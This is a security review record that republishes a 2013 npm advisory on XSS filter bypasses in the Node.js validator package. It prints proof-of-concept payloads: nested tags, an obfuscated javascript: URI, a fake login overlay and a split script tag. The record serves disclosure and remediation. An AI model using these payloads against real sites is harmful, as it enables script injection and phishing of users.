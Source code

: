 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Neal Poole, Krzysztof Kotowicz
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/validator
Review-Date: '2013-07-05'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Multiple XSS Filter Bypasses*<br><br>If you are a developer currently using the xss filter function from the validator package, you should consider replacing it with the escape filter function from the same package. This function replaces all instances of angle brackets (<, >), ampersands, and quotation marks, so no HTML tags will be processed.
### Details
The validator module for Node.js contains functionality meant to filter potential XSS attacks (a filter called xss). Several ways to bypass the filter were discovered. In general, because the function’s filtering is blacklist-based it is likely that other bypasses will be discovered in the future. Developers are encouraged not to use the xss filter function in this package.  ### Details: Various inputs that could bypass the filter were discovered:  Improper parsing of nested tags:  ``` <s <onmouseover="alert(1)"> <;s onmouseover="alert(1)">This is a test</s> ```  Incomplete filtering of javascript: URIs:  ``` <a href="javascriptJ a V a S c R iPt::alert(1)" "<s>">test</a> ```  UI Redressing:  ``` <div style="z-index: 9999999; background-color: green; width: 100%; height: 100%"> <h1>You have won</h1>Please click the link and enter your login details: <a href="http://example.com/">http://good.com</a> </div> ```  Bypass via Nested Forbidden Strings:  ``` <scrRedirecRedirect 302t 302ipt type="text/javascript">prompt(1);</scrRedirecRedirect 302t 302ipt> ```  Additional bypasses were discovered by Krzysztof Kotowicz in 2012 when auditing CodeIgniter's XSS filtering function, which this code was based off of.
<br><br>• Affected Versions: <1.1.0
<br>• Patched Versions: >=1.1.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://nealpoole.com/blog/2013/07/xss-filter-bypass-in-validator-nodejs-module/)', 'http://blog.kotowicz.net/2012/07/codeigniter-210-xssclean-cross-site.html)']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
